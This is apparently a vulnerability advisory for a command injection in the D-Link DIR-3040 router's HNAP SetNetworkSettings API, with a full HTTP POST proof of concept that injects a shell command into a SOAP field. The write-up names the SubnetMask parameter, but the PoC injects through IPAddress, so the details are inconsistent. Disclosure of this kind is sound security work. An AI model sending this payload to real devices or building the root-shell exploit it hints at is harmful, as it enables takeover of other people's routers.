


# D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.


## Vulnerability details

DIR-3040 prog.cgi  Keyword api SetNetworkSetting.



The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to __cp




Then __cp formats the matched content into acStack196 through the sprintf function, and finally executes the content in acStack196 through the system function. There is a command injection vulnerability

##  POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3FD4E69D96091F37A00F8FEC98928CB5 1649128376185
Content-Length: 633
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>&& ls > /tmp/456 &&echo 1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell